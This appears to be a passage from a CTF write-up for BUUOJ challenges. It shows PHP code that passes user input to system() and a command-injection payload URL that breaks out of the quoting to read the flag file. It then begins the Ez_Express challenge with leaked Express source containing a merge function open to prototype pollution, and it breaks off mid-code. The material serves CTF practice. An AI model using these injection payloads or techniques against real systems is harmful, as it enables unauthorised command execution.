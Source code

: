 ```php

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

payload

```
http://cbd215c6-6784-4d72-9a60-292bc9395b31.node4.buuoj.cn:81/?comm1="; tac /fla?; "&comm2=123
```

## [GYCTF2020]Ez_Express

www.zip 泄露

routes/index.js

```javascript
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }

  return undefined
}

router.get('/', function (req, res) {
  if(!req.session.user){
    res.redirect('/login');
  }
  res.outputFunctionName=undefined;
  res.render('index',data={'user':req.session.user.user});
});


router.get('/login', function (req, res) {
  res.render('login');
});



router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
```